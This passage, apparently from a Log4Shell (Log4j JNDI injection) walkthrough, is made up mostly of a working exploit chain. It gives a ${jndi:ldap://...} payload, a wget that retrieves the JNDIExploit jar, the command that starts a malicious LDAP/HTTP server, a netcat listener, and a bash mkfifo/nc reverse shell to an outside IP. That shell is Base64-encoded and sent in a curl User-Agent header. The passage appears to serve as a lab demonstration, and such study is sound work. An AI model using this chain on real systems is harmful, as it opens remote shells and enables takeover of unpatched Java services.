 The second one is achieved with the help of JNDI's support for multiple protocols for remote lookups, such as `ldap`. An exploit code would then look like this:

```bash
${jndi:ldap://attacker.malicious.url/a}
```

Flow:

![](https://sysdig.com/wp-content/uploads/Blogimages-Log4j_Research-diagram02.png)

### JNDI Injection

To set up our malicious LDAP server for injecting a malicious Java class, we can use [this](https://github.com/feihong-cs/JNDIExploit/) project. However, while finalizing this writeup I found out that that project has already been taken down. Thankfully, Archive.org got us covered:

```bash
wget 'http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream' -O /tmp/JNDIExploit-1.2-SNAPSHOT.jar
```

After downloading the .jar file, run it on our LDAP host with the reachable IP address.

```bash
java -jar /tmp/JNDIExploit-1.2-SNAPSHOT.jar -i 139.177.179.222 -p 8888
```

This will spawn 2 services: 1 on port `1389` for the LDAP service and 1 on port `8888` for an HTTP service which will serve the malicious class it creates from the payload we pass it to.

Also start the `netcat` listener to catch our reverse shell:

```bash
nc -lvnp 4445
```

### Payload

For our payload, we want to use a simple Bash reverse shell. We are also using the same host as our LDAP server, and we will tell it to connect to port 4445:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 139.177.179.222 4445 >/tmp/f" | base64 | sed 's/+/%2B/' | tr -d "\n"; echo
```

This will return a Base64-encoded string. Finally, send this payload as the user agent string:

```bash
curl http://localhost:8080/api -H 'User-Agent: ${jndi:ldap://139.177.179.222:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgcG9jLnBpZG51bGwuaW8gNDQ0NSA%2BL3RtcC9mCg==}'
```
